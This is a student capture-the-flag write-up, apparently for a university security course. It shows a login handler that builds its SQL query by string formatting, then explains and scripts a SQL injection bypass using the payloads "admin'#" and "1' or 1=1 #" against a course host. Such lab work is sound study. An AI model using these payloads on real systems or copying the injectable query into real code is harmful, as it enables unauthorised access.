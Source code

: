```Python
    error = {'message':'<span>Some fields are missing</span>'}
    return json.dumps(error)

  if _name and _password:
    (connection, cursor) = opendb()
  
    req = "SELECT * FROM tlb_user WHERE login='{}' AND password='{}'"
    cursor.execute(req.format(_name, _password))
  
    data = [(login, password) for (login, password) in cursor]
    closedb(connection , cursor) 

    if len(data) != 0 and data[0][0] == ’admin’:
      return json.dumps({’gg’:’GG! Flag: {}!’.format(flag)})
    else:
      error = {’error’:’No user found with these credentials.’}
      return json.dumps(error)

if __name__ == "__main__":
  app.run(host = ’0.0.0.0’, port =8001)

```

#### Description of the vulnerability

In the code above I can  see the sql query can check that it could exist a vulnerability because if I try to post the name and the password using unpaired quotes it responses to the log console that is not the response that it supposed to be so I can suspect that I could do sqli. Addicionally using OWASP-ZAP confirm it so I can try to make an sql attack.

#### Description of the script
I will use requests library to make the request in the webpage using admin as a keyword because it is a common word to the user administrator and I'll send the request adding a quote and '#' at the end which makes that the request will ignore the rest of the query thats why don't need a real password, also I can use a 1 OR True request for example "1' or 1=1 #" and I will get the access.

```Python
import requests

targetUrl = "http://shepherd.ii.uib.no:8001/signIn"
param = {"inputName":"admin'#", "inputPassword":"not_needed"}
#also we can use 1' or 1=1 # in the input name that is more generic

result = requests.post(targetUrl, param)

f = open("out_1.txt", "w")

f.write(result.text)

```

[Exploit with python and request library](https://github.com/jhaos/inf226/tree/master/sqli/sqli_1.py)
